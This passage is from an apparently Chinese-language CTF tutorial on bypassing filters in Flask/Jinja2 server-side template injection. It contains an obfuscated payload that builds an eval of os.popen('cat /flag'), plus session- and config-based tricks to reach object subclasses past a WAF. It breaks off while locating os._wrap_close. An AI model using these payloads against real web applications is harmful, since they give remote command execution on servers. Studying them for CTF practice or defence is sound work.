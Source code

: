 所以最终的payload为：

```python
{% set zero = (({ }|select|string|list).pop(38)|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs|int %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set seven = (zero-one-one-five)|abs %}{% set xhx = (({ }|select|string|list).pop(24)|string) %}{% set space = (({ }|select|string|list).pop(10)|string) %}{% set point = ((app.__doc__|string|list).pop(26)|string) %}{% set yin = ((app.__doc__|string|list).pop(195)|string) %}{% set left = ((app.__doc__|string|list).pop(189)|string) %}{% set right = ((app.__doc__|string|list).pop(200)|string) %}{% set c = dict(c=aa)|reverse|first %}{% set bfh=self|string|urlencode|first %}{% set bfhc=bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set os = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx*2~but~xhx*2 %}{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in whoami.__init__.__globals__.items() %}{% if f == bul %}{% for a,b in v.items() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}
```

里面的一些索引还需要大家构造一下绕过后的payload自己跑一下，复现的时候不要忘记这一点

过滤了request和class
----------------

这里除了用上面中括号或 `|attr()` 那几种方法外，我们还可以利用flask里面的session对象和config对象来逃逸这一姿势。

从Flask官方文档里，找到了session对象，经过测试没有被过滤。更巧的是，session一定是一个dict对象，因此我们可以通过键的方法访问相应的类。**由于键是一个字符串，因此可以通过字符串拼接绕过。**

```python
{{session['__cla'+'ss__']}}
```

访问到了类，我们就可以通过 `__bases__` 来获取基类的元组，带上索引 0 就可以访问到相应的基类。由此一直向上我们就可以找到最顶层的`object`基类了。**（同样的，如果没有过滤config的话，我们还可以利用config来逃逸，方法与session的相同）**

payload：

```python
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]}}
```

有了对象基类，我们就可以通过访问 `__subclasses__` 方法再实例化去访问所有的子类。同样使用字符串拼接绕过WAF，这样就实现**沙盒逃逸**了。

payload：

```python
{{session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'ss__']()}}
```

还是从os库入手，直接搜索“os”，找到了 `os._wrap_close` 类，同样使用dict键访问的方法。猜大致范围得到了索引序号，我这里序号是312，